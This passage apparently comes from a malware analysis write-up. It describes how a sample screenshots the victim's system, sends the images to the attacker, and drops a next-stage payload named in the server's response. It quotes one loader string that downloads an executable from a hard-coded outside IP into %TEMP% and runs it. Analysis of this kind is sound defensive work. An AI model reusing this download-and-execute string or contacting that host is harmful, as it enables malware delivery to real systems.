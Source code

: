 The malware uses these APIs to take a screenshots from the victim system and send them to the attacker

![screenshot](img/scrnsht.png)

### Loading Next stage

The malware can drop a next stage malware specified in the response from the server containing `ldr_`.

```plaintext
ldr_1:http://94.158.244.119/U4N9B5X5F5K2A0L4L4T5/84897964387342609301.bin|%TEMP%\|exe
```

The malware open a connection to the server and download the content of the file specified in the response to the system

![ldr](img/ldr.png)
